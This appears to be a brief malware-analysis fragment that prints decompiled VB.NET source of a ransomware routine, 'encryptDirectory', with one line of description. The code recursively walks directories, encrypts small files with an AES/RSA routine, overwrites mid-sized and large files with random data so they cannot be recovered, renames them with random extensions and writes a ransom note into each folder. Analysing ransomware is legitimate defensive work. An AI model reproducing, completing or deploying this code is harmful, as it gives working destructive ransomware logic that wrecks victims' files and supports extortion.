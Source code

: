 It will scan specific directories and iterates through all available drives on a system and applies a specific action to each, except for the drive "C:".

### encryptDirectory

```
Private Shared Sub encryptDirectory(location As String)
	Try
		Dim files As String() = Directory.GetFiles(location)
		Dim flag As Boolean = True
		For i As Integer = 0 To files.Length - 1
			Try
				Dim extension As String = Path.GetExtension(files(i))
				Dim fileName As String = Path.GetFileName(files(i))
				If Array.Exists(Of String)(Program.validExtensions, Function(E As String) E = extension.ToLower()) AndAlso fileName <> Program.droppedMessageTextbox Then
					Dim fileInfo As FileInfo = New FileInfo(files(i))
					fileInfo.Attributes = FileAttributes.Normal
					If fileInfo.Length < 2117152L Then
						If Program.encryptionAesRsa Then
							Program.EncryptFile(files(i))
						End If
					ElseIf fileInfo.Length > 200000000L Then
						Dim random As Random = New Random()
						Dim num As Integer = random.[Next](200000000, 300000000)
						Dim [string] As String = Encoding.UTF8.GetString(Program.random_bytes(num))
						File.WriteAllText(files(i), Program.randomEncode([string]))
						File.Move(files(i), files(i) + "." + Program.RandomStringForExtension(4))
					Else
						Dim string2 As String = Encoding.UTF8.GetString(Program.random_bytes(Convert.ToInt32(fileInfo.Length) / 4))
						File.WriteAllText(files(i), Program.randomEncode(string2))
						File.Move(files(i), files(i) + "." + Program.RandomStringForExtension(4))
					End If
					If flag Then
						flag = False
						File.WriteAllLines(location + "/" + Program.droppedMessageTextbox, Program.messages)
					End If
				End If
			Catch
			End Try
		Next
		Dim directories As String() = Directory.GetDirectories(location)
		For j As Integer = 0 To directories.Length - 1
			Program.encryptDirectory(directories(j))
		Next
	Catch ex As Exception
	End Try
End Sub
```
